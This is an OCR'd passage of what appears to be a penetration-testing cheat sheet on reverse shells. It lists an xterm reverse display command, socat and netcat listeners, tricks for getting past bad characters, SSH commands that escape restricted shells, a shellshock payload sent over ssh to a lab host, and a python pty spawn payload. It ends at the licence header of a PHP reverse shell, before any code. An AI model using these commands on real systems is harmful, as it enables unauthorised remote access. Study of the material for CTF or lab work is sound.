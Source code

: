 xterm

1 # Make sure the Xserver is listening to TCP.
2 xhost +RHOST
3 xterm -display LHOST:0 or DISPLAY=LHOST:0 xterm

Listeners

1 socat file:`tty`,echo=0,raw tcp-listen:LPORT
2 nc -lvvp LPORT

Restricted Shell / SSH

If reverse shell not working :
try changing the port to 443 or 80
try checking for characters breaking the reverse shell
Evading Badchars in a reverse shell (HTB Sense)
Echo abc
Echo abc/
Echo abc -
Check env variables -> env
HOME= /
Echo ${HOME}/home
Optional (Using ASCII to evade badchars)
Printf “\55” -> -

Restricted Reverse Shell :

To disable profiling in /etc/profile and ~/.profile
Locate ifconfig
/sbin/ifconfig
nice /bin/bash

SSH :

1 // Ways to no profile
2 ssh hostname -t "bash --noprofile"
3 ssh -t user@host bash --norc --noprofile
4 ssh -t username@hostname /bin/sh
5 ssh -t user@host "bash --norc --noprofile -c '/bin/rm .bashrc'"
6
7 // SSH bash shellshock (Troll2 Vulnhub)
8 ssh -i noob noob@192.168.0.119 '() { :; }; uname -a'

Bypass restricted shell using : (dipak.pdf)

export PATH=/bin/:sbin/:/usr/bin/:$PATH
payload = "python -c 'import pty;pty.spawn(\"/bin/bash\")'"

Stable Reverse Shells

PHP

1 <?php
2 // php-reverse-shell - A Reverse Shell implementation in PHP
3 // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
4 //
5 // This tool may be used for legal purposes only. Users take full responsi
6 // for any actions performed using this tool. The author accepts no liabil
7 // for damage caused by this tool. If these terms are not acceptable to yo
8 // do not use this tool.
9 //
10 // In all other respects the GPL version 2 applies:
11 //
12 // This program is free software; you can redistribute it and/or modify
13 // it under the terms of the GNU General Public License version 2 as
14 // published by the Free Software Foundation.
15 //
16 // This program is distributed in the hope that it will be useful,
17 // but WITHOUT ANY WARRANTY; without even the implied warranty of